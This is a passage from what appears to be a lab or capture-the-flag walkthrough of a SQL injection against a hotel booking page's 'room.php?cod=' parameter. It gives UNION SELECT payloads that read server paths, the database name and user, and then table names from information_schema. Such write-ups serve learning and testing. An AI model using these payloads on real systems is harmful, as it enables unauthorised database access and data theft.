 Step 2 &#8211; Request some basic information about the database and it&#8217;s structure.

`room.php?cod=99%2527 union select 1,@@datadir,@@basedir,database(),user(),6,7`

&nbsp;

<img class="alignnone size-full wp-image-190" src="/assets/img/2019/08/js_sqli_basic.png" /> 

Step 3 &#8211; After getting the database name &#8216;hotel&#8217;, I extracted the table and column information.

The below statement retrieves the table name.

`room.php?cod=99%2527 UNION SELECT 1,table_name,3,4,5,6,7 FROM information_schema.columns where table_schema like 'hotel'`

<img class="alignnone size-full wp-image-150" src="/assets/img/2019/08/js_sqli_table.png" /> 

After that, use a statement like below to extract the columns. Increment the LIMIT operator to get the data out one at a time.
